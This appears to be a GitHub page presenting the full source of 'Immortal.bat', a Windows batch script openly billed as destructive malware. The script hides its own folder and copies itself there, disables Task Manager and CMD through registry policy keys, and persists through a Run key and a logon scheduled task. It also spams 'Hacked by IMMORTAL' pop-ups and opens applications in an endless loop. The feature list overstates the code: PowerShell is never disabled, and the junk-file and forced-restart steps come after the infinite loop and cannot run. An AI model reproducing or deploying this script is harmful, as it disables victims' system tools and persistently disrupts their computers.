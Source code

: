 ✅ Persistence via Task Scheduler & Registry
✅ Disables Task Manager, CMD, PowerShell
✅ Infinite pop-ups & spam message boxes
✅ Creates unstoppable loops opening Notepad, Calculator, Paint
✅ Floods system with junk files
✅ Forces auto-restart after 10 minutes


---

Immortal.bat (Modern, Destructive)
```batch
@echo off
title Immortal.bat
color 04
mode con cols=80 lines=25

:: Hide script directory
mkdir C:\Immortal 2>NUL
attrib +h C:\Immortal

:: Copy script to persist
copy "%~f0" C:\Immortal\Immortal.bat /y >NUL

:: Disable Task Manager, CMD, PowerShell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableTaskMgr" /t REG_DWORD /d 1 /f
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableCMD" /t REG_DWORD /d 1 /f
reg add "HKCU\Software\Policies\Microsoft\Windows\System" /v "DisableCMD" /t REG_DWORD /d 1 /f

:: Add persistence via Registry & Task Scheduler
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Immortal" /t REG_SZ /d "C:\Immortal\Immortal.bat" /f
schtasks /create /tn "ImmortalTask" /tr "C:\Immortal\Immortal.bat" /sc ONLOGON /RL HIGHEST /F

:: Infinite pop-ups
for /l %%i in (1,1,20) do (
    start cmd /c "msg * Hacked by IMMORTAL"
    timeout /t 1 /nobreak >NUL
)

:: Open infinite apps
:loop
start notepad.exe
start calc.exe
start mspaint.exe
timeout /t 5 /nobreak >NUL
goto loop

:: Create junk files
for /l %%i in (1,1,100) do (
    echo IMMORTAL RULES > C:\Immortal\spamfile%%i.txt
)

:: Auto restart after 10 minutes
timeout /t 600 /nobreak
shutdown /r /f /t 0
```
